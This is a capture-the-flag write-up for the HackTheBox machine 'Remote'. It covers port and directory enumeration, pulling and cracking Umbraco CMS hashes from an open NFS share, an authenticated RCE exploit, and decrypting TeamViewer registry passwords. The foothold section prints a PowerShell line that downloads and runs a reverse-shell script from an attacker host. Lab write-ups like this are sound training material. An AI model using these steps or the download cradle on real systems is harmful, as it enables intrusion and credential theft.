# Remote
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.180
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-02 18:25 BST
Nmap scan report for 10.10.10.180 (10.10.10.180)
Host is up (0.13s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -31s
| smb2-time: 
|   date: 2023-07-02T17:26:07
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 198.64 seconds
```
- Web server


- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.180 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x asp,aspx --no-error
===============================================================
Gobuster v3.5                      
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)                                                                                                                                                                               
===============================================================
[+] Url:                     http://10.10.10.180
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              asp,aspx
[+] Timeout:                 10s
===============================================================
2023/07/02 19:58:02 Starting gobuster in directory enumeration mode
===============================================================
/.aspx                (Status: 200) [Size: 6693]
/contact              (Status: 200) [Size: 7880]
/contact.aspx         (Status: 200) [Size: 7880]
/blog.aspx            (Status: 200) [Size: 5001]
/home.aspx            (Status: 200) [Size: 6703]
/blog                 (Status: 200) [Size: 5011]
/home                 (Status: 200) [Size: 6703]
/products             (Status: 200) [Size: 5328]
/products.aspx        (Status: 200) [Size: 5328]
/default.aspx         (Status: 200) [Size: 6693]
/people.aspx          (Status: 200) [Size: 6739]
/people               (Status: 200) [Size: 6739]
/product.aspx         (Status: 500) [Size: 3420]
/product              (Status: 500) [Size: 3420]
/Default.aspx         (Status: 200) [Size: 6693]
/Home                 (Status: 200) [Size: 6703]
/Home.aspx            (Status: 200) [Size: 6703]
/Products             (Status: 200) [Size: 5338]
/Products.aspx        (Status: 200) [Size: 5338]
/Contact              (Status: 200) [Size: 7890]
/Contact.aspx         (Status: 200) [Size: 7890]
/install              (Status: 302) [Size: 126] [--> /umbraco/]
/Blog.aspx            (Status: 200) [Size: 5011]
/Blog                 (Status: 200) [Size: 5011]
/People.aspx          (Status: 200) [Size: 6749]
/People               (Status: 200) [Size: 6749]
/Product              (Status: 500) [Size: 3420]
/Product.aspx         (Status: 500) [Size: 3420]
```
- Seems like there is a [UMBRACO CMS](https://umbraco.com/), based on `/install` redirect


- We have `Remote Code Execution` exploits
  - But I need to find the version and creds to be able to perform them



- Nothing found on `SMB` and `FTP`


- We can also check `nfs` on port `2049` which was returned by `nmap`
```
└─$ showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```

## Foothold/User
- Let's mount it


- If we check `App_Data` we will find [SDF file](https://fileinfo.com/extension/sdf)
  - Which is `a file that contains a compact relational database saved in the SQL Server Compact (SQL CE) format, which is developed by Microsoft`
  - We can search for tools to open it
  - But we can try using `strings` just to see its' contents: `strings Umbraco.sdf | less`
  - Found some creds
    - `admin@htb.local:b8be16afba8c314ad33d812f22a04991b90e2aaa`
    - `smith@htb.local:jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts=`
  - Crack them right away
    - `admin@htb.local:baconandcheese`





- Creds work, now we can access `CMS`



- Let's try one of the exploits
  - Change `login`, `host`, `password`, `cmd` and `proc.StartInfo.FileName`.







- Let's get a reverse shell
  - `cmd` = `/c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.16.12:8000/shell.ps1')`



## Root
- Let's upload `winpeas` and run it
  - We have a list of interesting services
  - `TeamViewer`



- There is a module in metasploit to gather [TeamViewer credentials](https://github.com/rapid7/metasploit-framework/blob/master//modules/post/windows/gather/credentials/teamviewer_passwords.rb)
  - Let's retrieve a password for registry: `HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version7`
    - `OptionsPasswordAES`, `SecurityPasswordAES`, `SecurityPasswordExported`, `ServerPasswordAES`, `ProxyPasswordAES`, `LicenseKeyAES`




- According to module, it looks like `TeamViewer` uses static `key` and `iv`
  - Using `metasploit`'s module as reference we can write own script to decrypt the password



- You can use `evil-winrm`, `psexec` or `wmiexec` to connect as Administrator


